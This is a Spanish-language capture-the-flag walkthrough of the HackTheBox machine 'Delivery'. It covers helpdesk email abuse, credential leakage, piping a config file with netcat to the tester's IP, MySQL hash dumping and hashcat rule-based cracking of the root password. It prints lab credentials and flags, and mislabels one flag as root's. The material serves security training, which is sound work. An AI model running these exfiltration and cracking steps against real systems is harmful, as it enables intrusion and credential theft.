

# DELIVERY [HACKTHEBOX]
### (Host Enumeration, Support Ticket System Exploitation, Information Leakage, SQL Database Enumeration, Hash Cracking, Hashcat Rules for BruteForce)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

Empezamos haciendo un escaneo de nmap con los siguientes argumentos:

```bash
nmap -p- --open -sS -sCV -T5 10.10.10.222 -n -Pn -vvv -oN escaneo_nmap
```

Nos encuentra varios puertos abiertos:


Si nos metemos en la web (puerto 80) y pinchamos donde pone "HelpDesk", nos lleva a un dominio el cual no nos conecta:


Nos tendremos que ir a /etc/hosts y añadirlo, una vez hecho, ya nos muestra el contenido:


Si le damos a "Open a New Ticket", nos sale esto:


Después de poner datos aleatorios y darle a "Create Ticket", nos sale el siguiente mensaje:


Ahora vamos a meternos a "Check Ticket Status", poniendo nuestro email y el ID del ticket que acabamos de crear, nos entra en una especie de correo temporal de gestión de tickets:


Ahora que tenemos esto, si recordamos el mensaje que nos puso cuando creamos el ticket, vimos que creaba un email con el número de id para la gestión del ticket, es decir, puede ser que tengamos un posible correo al cual le lleguen mensajes y nos los ponga como respuesta a nuestro ticket. 

Si nos fijamos en el escaneo de nmap, vemos que hay un 3er puerto abierto (8065), nos metemos en la web y nos aparece un panel de login, también nos da una opción a registrarnos, como tenemos un posible email, vamos a darle y metemos nuestros datos con el email que se creó:


Una vez le damos a "Create Account", nos sale este mensaje:


Si ahora nos vamos a la web donde tenemos el ticket activo y recargamos, vemos que tenemos una nueva respuesta, que en verdad es el correo de confirmación que se envió:


En el correo hay un link, vamos a meternos:


Una vez metida la contraseña, seleccionamos el grupo "internal" y nos aparece esto:


Ahora que tenemos unas posibles credenciales, vamos a intentar entrar por ssh, que era otro de los puertos que había abiertos:



Ya tenemos la flag de root:

`00fe0c6ba14951250a36d5184ae3d96e`

Ahora vamos a enumerar más usuarios del sistema mediante el siguiente comando:

```bash
cat /etc/passwd | grep "sh$"
```

Nos muestra a 'root', 'maildeliverer' y 'mattermost':


Vamos a intentar buscar información de mattermost en el sistema, para ello, utilizamos el siguiente comando:

```bash
find / 2>/dev/null | grep -i mattermost
```

Y este es el output:


Son muchas líneas y difíciles de leer, vamos a modificar el output para que nos ponga sólo lo que queremos ver:


```bash
find / 2>/dev/null | grep -i mattermost | grep -vE "sys|prepacked|cgroup|plugins|templates|client|i18n|fonts"
```

Ahora mejor:


Si nos fijamos en las rutas que nos saca, vemos una que nos llama la atención:

`/opt/mattermost/config` 

También podríamos haber ejecutado el siguiente comando para descubrirlo:

`ps -faux | grep -i mattermost`

Si nos metemos y listamos, vemos un archivo "config.json"


Al leerlo nos aparece todo en blanco y es complicado de leer, para verlo mejor, vamos a utilizar netcat para pasarnos el output a nuestra máquina víctima:

```bash
cat config.json | nc 10.10.16.2 4443
```

Nos ponemos en escucha y le concatenamos `jq` para verlo mejor. Si nos fijamos en el output, vemos algo que nos llama la atención:


Ahora que tenemos otras credenciales (`mmuser:Crack_The_MM_Admin_PW`) de lo que parece ser una base de datos, vamos a intentar entrar:

```bash
mysql -u mmuser -p
```

Y nos saca esto:


Vamos a entrar en la base de datos "mattermost" y listar las tablas:

```bash
use mattermost
show tables;
```

Una vez listadas, vemos que hay una que se llama "Users", vamos a ver que tablas contiene describiéndola:

```bash
describe Users;
```

Como hay muchas tablas, vamos a seleccionar sólo las que nos interesan:

```bash
select Username, Password from Users;
```

Ahora ya tenemos lo que queremos, son hashes de las contraseñas de los usuarios de la web "mattermost". Si nos fijamos hay un hash de root:


Recordando la web de Mattermost, había un mensaje en el chat interesante y relacionado con esto:


Ahora ya tenemos todo lo que necesitamos para ser root, vamos a guardar el hash en un archivito:


Y la palabra en la cual nos vamos a basar para hacer un ataque con hashcat:


Vamos a buscar que tipo de hash es para poder hacer la fuerza bruta:

```bash
hashcat --example-hashes | grep '$2a' -B 11
```

Y este es el modo que queremos:


Ahora, con hashcat, vamos a realizar un ataque de fuerza bruta utilizando el diccionario de reglas "rockyou-30000", que contiene varias reglas para crear un diccionario basándose en la palabra que le hemos indicado ("PleaseSubscribe!"):

```bash
hashcat -m 3200 -a 0 -r /usr/share/hashcat/rules/rockyou-30000.rule hash base_password
```

Esperamos un rato y nos saca la contraseña sin problemas:


Ahora si volvemos a la máquina víctima, podemos probar a convertirnos en root con esa contraseña:


Una vez somos root, solo nos queda irnos al directorio '/root' y ver la flag (`7d408b4c5e32b8b9d6dbf0b8e1554fd5`):


# ./ROOTED


